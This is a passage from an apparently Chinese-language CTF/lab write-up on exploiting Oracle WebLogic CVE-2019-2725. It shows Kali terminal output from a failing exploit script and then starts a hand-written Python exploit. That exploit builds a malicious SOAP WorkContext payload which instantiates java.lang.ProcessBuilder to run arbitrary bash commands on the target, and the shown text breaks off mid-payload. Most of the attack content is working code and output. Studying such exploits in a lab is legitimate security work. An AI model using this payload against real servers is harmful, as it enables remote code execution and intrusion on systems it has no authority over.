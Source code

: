 **问题分析**:

- **依赖问题**: urllib3版本兼容性问题，新版本urllib3的导入路径发生了变化
- **解决方案**: 移除SSL警告禁用代码，或使用更简单的手工SOAP攻击方法

**最终解决方案 - 使用简化的手工SOAP攻击**:

由于依赖问题，我们采用最直接的手工SOAP攻击方法，这也是CVE-2019-2725最核心的利用技术。

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -v

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import InsecureRequestWarning
ModuleNotFoundError: No module named 'urllib3.packages'
                                                                                                                                                       
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -c "id"

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import Insec
```

#### 3.2.3 手工构造SOAP攻击

**创建恶意SOAP请求**:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
WebLogic CVE-2019-2725 手工利用脚本
"""

import requests
import base64
import sys

def exploit_cve_2019_2725(target_url, command):
    """
    手工构造CVE-2019-2725攻击载荷
    """
  
    # 恶意SOAP载荷模板
    soap_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>{command}</string>
                        </void>
                    </array>
                    <void method="start"/>
```